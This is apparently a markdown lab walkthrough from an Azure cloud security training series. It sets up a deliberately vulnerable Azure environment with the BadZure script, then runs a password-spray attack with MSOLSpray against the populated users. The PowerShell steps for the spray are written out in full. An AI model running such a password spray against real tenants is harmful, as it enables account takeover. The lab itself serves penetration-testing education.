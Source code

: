
### References
* https://github.com/mvelazc0/BadZure/
* https://www.youtube.com/watch?v=7IdyU7tQgww

### Pre-Requisites
1. Deploy Azure PenTest VM
* https://github.com/davidokeyode/azure-cloudsec-practitioner/tree/main/pentest-vm-win
* https://davidokeyode.medium.com/azure-cloudsec-practitioner-series-1-deploying-an-azure-pentest-vm-f65adbc40edb

2. You are logged into the Azure PenTest VM

### Prepare the environment
1. Verify Dependencies
```
Get-Module Microsoft.Graph -ListAvailable
Get-Module Azure -ListAvailable
```

2.  Connect to Azure and Microsoft Graph
```
Connect-AzAccount
Connect-MgGraph
```

3. Import the BadZure Script
```
cd $env:SystemDrive\PentestTools\Azure\VulnerableEnv\BadZure
. ./Invoke-BadZure.ps1
```

4. Make note of the username and password for the three attack paths
![Attack Path Output](image.png)

5. Review populated users
```
ls
notepad users.txt
```

### Run MSOLSpray to simulate a password spray attack
1. Import the MSOLSpray module
```
cd $env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray
Import-Module .\MSOLSpray.ps1
```

2. Copy the users.txt file from the BadZure directory to the MSOLSpray directory
* This contains a list of users that will be targets for the password spray attack
```
Copy-Item -Path "$env:SystemDrive\PentestTools\Azure\VulnerableEnv\BadZure\users.txt" -Destination "$env:SystemDrive\PentestTools\Azure\Attack\MSOLSpray"
```

3. Run MSOLSpray
```
Invoke-MSOLSpray -UserList .\users.txt -Password "PASSWORD_FROM_THE_ATTACK_PATH_OUTPUT" -Verbose -OutFile .\sprayresults.txt
```

4. View the result
* Notice that the user with the password from the attack path output was compromised
```
notepad sprayresults.txt
```

### 
